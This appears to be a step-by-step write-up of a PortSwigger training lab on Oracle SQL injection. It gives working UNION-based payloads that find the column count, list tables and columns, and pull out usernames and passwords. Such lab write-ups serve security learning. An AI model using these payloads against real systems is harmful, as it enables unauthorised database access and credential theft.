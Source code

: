 # SQL injection attack, listing the database contents on Oracle
https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle

Step - 1
--------
'
-
Error
Single Quotes

Step - 2
--------
'--
---
No MySQL

Step - 3
--------
' ORDER BY 3--
--------------
Error
2 Column

Step - 4
--------
' UNION SELECT 'a','a' FROM dual--
----------------------------------
2 String Column

Step - 5
--------
' UNION SELECT 'a',table_name FROM all_tables--
-----------------------------------------------
Table Name: USERS_JASUOU

Step - 6
--------
' UNION SELECT 'a',column_name FROM all_tab_columns WHERE table_name='USERS_JASUOU'--
-------------------------------------------------------------------------------------
Column Name: USERNAME_GSFFNH and PASSWORD_DITWXL

Step - 7
--------
' UNION SELECT 'a',USERNAME_GSFFNH || '~' || PASSWORD_DITWXL FROM USERS_JASUOU--
